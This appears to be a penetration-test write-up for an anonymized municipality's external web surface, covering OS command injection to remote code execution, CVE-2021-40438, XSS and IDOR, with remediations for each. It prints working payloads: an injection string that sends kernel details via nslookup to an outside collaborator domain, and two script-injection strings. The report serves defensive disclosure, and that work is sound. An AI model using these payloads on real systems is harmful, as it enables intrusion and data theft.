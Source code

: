 ```yaml
---
layout: post
title: 'Municipality External PT'
tags:
 - web
 - real-activity
hero: https://images.unsplash.com/photo-1462206092226-f46025ffe607?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=1474&q=80
overlay: blue
---
```


Please note that for this proof of concept, while images and step-by-step reproduction tips are fundamental for evidentiary purposes, they will not be supplied. Furthermore, in adherence to our commitment to privacy and compliance with non-disclosure agreements, all URLs and functionalities within this assessment have been anonymized. {: .lead}
 <!--break-->

# Municipality

## Type of activity and objectives
The objective of this engagement was to conduct an external penetration assessment for the organization. The aim was to identify potential vulnerabilities that could potentially be exploited from outside sources, with the goal of preventing unauthorized access and compromise.
## Scope of evaluation
The evaluation was focused on the external surface of the organization. This scope encompassed assessing the security and potential vulnerabilities within this external surface.
## Executive Summary
The security assessment conducted on the target environment revealed several significant findings that require immediate attention:

1. **OS Command Injection to Remote Code Execution (RCE):**
   The team successfully exploited an OS command injection vulnerability that led to remote code execution within the application. This critical finding poses a severe risk to the security and functionality of the application, as attackers could potentially execute arbitrary code and gain unauthorized access.

2. **CVE-2021-40438:**
   During the assessment, the team identified the presence of CVE-2021-40438, a known security vulnerability. This finding indicates that the application might be susceptible to a specific type of attack, potentially allowing attackers to compromise its integrity, confidentiality, or availability.

3. **Cross Site Scripting (XSS):**
   The team discovered instances of Cross-Site Scripting (XSS) vulnerabilities within the application. These vulnerabilities can be exploited to inject malicious scripts into web pages viewed by other users, compromising their browsing experience and potentially leading to data theft or unauthorized actions.

4. **Insecure Direct Object References (IDOR):**
   The assessment identified instances of Insecure Direct Object References (IDOR) vulnerabilities within the application. These vulnerabilities can enable attackers to access sensitive resources or data that they should not have access to, potentially leading to unauthorized information disclosure or data manipulation.

Failing to address these vulnerabilities could result in unauthorized access, data breaches, and potential financial and reputational damages. It is strongly recommended that the organization takes prompt actions to remediate these vulnerabilities and enhance the overall security posture of the external surface.
## Finding Summary
- OS cmd injection to RCE
- CVE-2021-40438
- Cross Site Scripting (XSS)
- IDOR
## Risk Impact Graph with CVSS Scores

![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/id27.png)

## Vulnerability Types Distribution

![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/id28.png)

## Attack storyline and findings### OS cmd injection to RCE
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
The following path was founded vulnerable: /password/index.php

- Detection of OS Injection: Using the payload `values%5Bpassword%5D=test|nslookup $(uname -r).collab.com.&`, the attacker identifies the presence of OS command injection by leveraging the nslookup command to execute the uname -r command, which retrieves the kernel version of the target system.

- Achieving Remote Code Execution: With the knowledge of the OS injection vulnerability, the attacker proceeds to execute arbitrary commands to gain control over the target system. In this PoC, the attacker leverages a crafted Python shell payload to establish a reverse shell connection, allowing them to remotely interact with the compromised system.
#### Remediations
- Implement Input Validation and Sanitization: Apply strict input validation and sanitization on all user-supplied inputs, especially those that are used in executing commands or constructing queries. This includes both form fields and URL parameters. Use input validation libraries and functions that reject or sanitize any suspicious or malicious inputs.

- Use Parameterized Queries: If database queries are involved, switch to using parameterized queries or prepared statements to prevent SQL injection vulnerabilities. This also helps mitigate OS command injection if the query construction is involved.

- Whitelisting Allowed Commands: Maintain a whitelist of allowed commands and sanitize input to ensure that only authorized commands can be executed. Validate user inputs against this whitelist before using them in command execution.
### CVE-2021-40438
- CVSS Vector: CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
A crafted request uri-path can cause mod_proxy to forward the request to an origin server choosen by the remote user. This issue affects Apache HTTP Server 2.4.48 and earlier.

The following was used for exploitation: https://github.com/Kashkovsky/CVE-2021-40438 .
#### Remediations
- Update the Apache HTTP Server

### Cross Site Scripting (XSS)
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
The provided Proof of Concept (PoC) demonstrates Cross-Site Scripting (XSS) vulnerabilities within a web application. XSS is a type of security vulnerability that occurs when an application does not properly sanitize or validate user input before rendering it on a web page. This allows an attacker to inject malicious scripts into the application, which are then executed within the context of other users' browsers.

In the context of the PoC:

- `authRequestCode=</script><script>alert(1)</script>`
Here, the value provided for the authRequestCode parameter includes a script tag </script> to prematurely close the preceding script tag, followed by another script tag <script> that contains the JavaScript code alert(1). This payload attempts to execute an alert box with the message "1" when the vulnerable page is loaded by another user.

- `lang=asas';alert(1)//34`
In this payload, the lang parameter is set to a string asas', followed by the alert(1) JavaScript code. The //34 at the end of the payload appears to be an attempt to comment out the rest of the parameter value. This payload aims to inject an alert box in a similar manner to the previous payload.
#### Remediations
- Input Validation: Validate and sanitize all user inputs on the server-side before processing or rendering them. Use input validation libraries or frameworks to ensure that only expected and safe characters are allowed.

- Contextual Escaping: Apply context-specific escaping for user-generated content based on where it will be rendered (e.g., HTML, URL, JavaScript). Use appropriate escaping functions to ensure data is treated as data and not code.

- Output Encoding: Encode user-generated content and other dynamic data before rendering it in HTML, JavaScript, or other contexts. Use appropriate encoding functions for the specific context (e.g., HTML entities, JavaScript escaping) to prevent scripts from being executed.
### IDOR
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
#### Proof of Concept (PoC) 
During the test it was possbile ot view other user submiteted forms via an IDOR in the folling In this Proof of Concept (PoC), a vulnerability related to Insecure Direct Object References (IDOR) was identified within the web application. The specific parameter being tested is "?formId=15394." By manipulating this parameter and supplying different values, the attacker was able to access and view forms submitted by other users, potentially compromising their sensitive data.

An Insecure Direct Object Reference occurs when an application exposes a reference to an internal implementation object, such as a file, directory, or database record, without proper authorization checks. In this case, the application failed to validate the user's authorization before providing access to form submissions associated with a specific form ID.
#### Remediations
- Implement Proper Authorization Checks: Ensure that access controls and authorization checks are implemented for all resources and functionalities. Verify that users have the necessary permissions to access specific objects or data before providing them with access.

- Use Indirect Object References: Avoid directly exposing internal object references such as database IDs or filenames to users. Instead, use indirect references or tokens that are validated and mapped to the corresponding objects on the server side.

- Implement Contextual Access Control: Apply access controls based on the context of the user, their role, and the data they are allowed to access. This includes ensuring that users can only access their own data or data they are authorized to view.
